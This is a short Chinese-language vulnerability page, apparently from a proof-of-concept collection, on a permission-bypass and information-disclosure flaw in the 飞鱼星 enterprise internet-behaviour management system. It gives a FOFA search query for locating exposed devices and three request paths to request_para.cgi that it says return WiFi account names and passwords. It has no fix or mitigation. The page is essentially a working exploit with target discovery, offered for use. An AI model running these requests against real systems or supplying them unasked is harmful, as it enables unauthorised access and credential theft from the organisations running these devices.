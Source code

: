 # 飞鱼星 企业级智能上网行为管理系统 权限绕过信息泄露漏洞

## 漏洞描述

飞鱼星 企业级智能上网行为管理系统 存在权限绕过以及信息泄露漏洞，可以获取管理员权限以及用户密码

## 漏洞影响

<a-checkbox checked>飞鱼星 企业级智能上网行为管理系统</a-checkbox></br>

## FOFA

<a-checkbox checked>title="飞鱼星企业级智能上网行为管理系统"</a-checkbox></br>

## 漏洞复现

信息泄露POC

```plain
/request_para.cgi?parameter=wifi_info 		 #获取ALL WIFI账号密码
/request_para.cgi?parameter=wifi_get_5g_host #获取5GWIFI账号密码
/request_para.cgi?parameter=wifi_get_2g_host #获取2GWIFI账号密码
```

![img](../../../.vuepress/public/img/fy-4.png)